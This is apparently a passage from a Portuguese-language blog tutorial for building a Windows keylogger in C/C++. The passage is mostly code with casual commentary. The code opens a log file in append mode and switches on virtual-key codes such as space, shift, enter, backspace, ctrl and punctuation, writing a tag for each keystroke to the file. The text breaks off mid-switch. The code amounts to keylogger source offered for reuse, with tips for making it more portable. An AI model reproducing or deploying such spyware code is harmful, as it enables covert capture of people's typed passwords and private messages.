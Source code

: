                 file = fopen("C:/Users/Marcos/Desktop/test.txt", "a+");  // salva tudo que é digitado em um arquivo txt(GetCurrentDirectory mas to com preguiça)
 
                if(file == NULL) {                                                           // se na criação do arquivo deu algum erro NULL, ai sai do meu keylogger
                    printf("Opah, Erro ao criar o arquivo.\n");
                    exit(1);                                                                      // sai fora do programa :D 
                }
{% endhighlight  %}
<p> A unica coisa importante dessa parte do código é a criação de um file() para salvar o que foi digitado em um arquivo txt, nada de mais o resto meu amigo é C básico claro você como programador não vai colocar o caminho do arquivo, usa GetCurrentDirectory fica mais dinâmico deixei isso com você. calma estamos terminando já:</p>
{% highlight c++ %}
                switch(i) {
                    case VK_SPACE:
                    fputc(' ', file);
                    fclose(file);
                    break;
                    case VK_SHIFT:
                    fputs("\r\n[SHIFT]\r\n", file);
                    fclose(file);
                    break;
                    case VK_RETURN:
                    fputs("\r\n[ENTER]\r\n",file);
                    fclose(file);
                    break;
                    case VK_BACK:
                    fputs("\r\n[BACKSPACE]\r\n",file);
                    fclose(file);
                    break;
                    case VK_TAB:
                    fputs("\r\n[TAB]\r\n",file);
                    fclose(file);
                    break;
                    case VK_CONTROL:
                    fputs("\r\n[CTRL]\r\n",file);
                    fclose(file);
                    break;
                    case VK_DELETE:
                    fputs("\r\n[DEL]\r\n",file);
                    fclose(file);
                    break;
                    case VK_OEM_1:
                    fputs("\r\n[;:]\r\n",file);
                    fclose(file);
                    break;
                    case VK_OEM_2:
                    fputs("\r\n[/?]\r\n",file);
                    fclose(file);
                    break;
                    case VK_OEM_3:
                    fputs("\r\n[`~]\r\n",file);
                    fclose(file);
                    break;
                    case VK_OEM_4:
                    fputs("\r\n[ [{ ]\r\n",file);
                    fclose(file);
                    break;
                    case VK_OEM_5:
                    fputs("\r\n[\\|]\r\n",file);
                    fclose(file);
                    break;